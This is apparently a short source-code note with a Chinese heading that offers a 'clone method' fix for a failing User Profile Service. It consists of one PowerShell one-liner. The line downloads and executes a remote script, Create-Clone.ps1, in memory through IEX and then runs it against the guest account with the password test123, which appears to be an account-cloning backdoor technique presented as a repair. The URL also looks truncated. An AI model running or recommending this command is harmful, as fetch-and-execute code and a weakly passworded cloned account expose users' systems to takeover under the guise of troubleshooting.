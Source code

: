 ### 如果系统出现UPS （user profile service） 用户配置文件加载不出来就用克隆的方法
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Create-Clone.ps1'); Create-Clone -u guest -p test123 `
    
